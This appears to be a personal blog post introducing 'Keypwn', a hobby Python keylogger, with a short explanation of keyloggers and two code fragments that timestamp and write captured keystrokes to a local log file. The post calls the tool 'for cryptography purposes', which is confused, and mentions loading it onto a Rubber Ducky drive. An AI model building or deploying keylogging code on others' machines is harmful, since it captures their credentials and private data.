 ```yaml
---
layout: post
author: Luis De León
tags: [Python]
---
```

Github resource [here](https://www.github.com/Its-Yayo/Keypwn). 

## Table of Contents:
1. [Basics](#basics)
2. [Understanding the basics](#understanding-the-basics)
3. [Usages](#usages)
4. [Releases](#releases)

---

## Basics

Keypwn is a single keylogger tool written in Python for cryptography purposes. A keylogger is a surveillance technology to capture and record any keystroke the user's typing on an specific computer. 

Keyloggers are commonly used by crackers as spywares to capture sensitive data, Personal identifiable Information (PII), login credentials, etc. A distracted person would potentially be vulnerable once a keylogger is being deployed in his computer. 

What Keypwn is actually doing is deploying a mounted server once you deploy or run the app. The code will integrately record any kestroke you type until you quit the program. It will create by itself a .txt document with all the keystrokes you typed in and it'll be stored in the local project's folder. 

This tool is for cryptography purposes. It might not be risky for potencially attacks unless it'd be optimized to be stored in a simple Rubber Ducky drive. You must NOT practice these habits by any chance.

## Understanding the basics 

We have 2 functions aside. 

```python
def get_current_date_time() -> str:
    return datetime.datetime.now().strftime('%Y-%m-%d %H:%M:%S')
```

This function will be our first instance for the document by adding the exact current time the app has been deployed. The function ```time.strftime()``` will convert a tuple or struct_time representing a time as returned by gmtime() or localtime() to a string as specified by the format argument. 

```python
def write_to_log_file(key) -> None:
    global log_file
    keys = str(key)

    if keys == "'\\x03'":
        log_file.close()
        sys.exit()

    if keys == 'Key.enter':
        return log_file.write('\n')
    elif keys == 'Key.space':
        return log_file.write(' ')
    elif keys == 'Key.backspace':
        return log_file.write('%BORRAR%')
    else:
        return log_file.write(keys.replace("'", ""))
```

## Usages
Soon...


## Releases
Soon...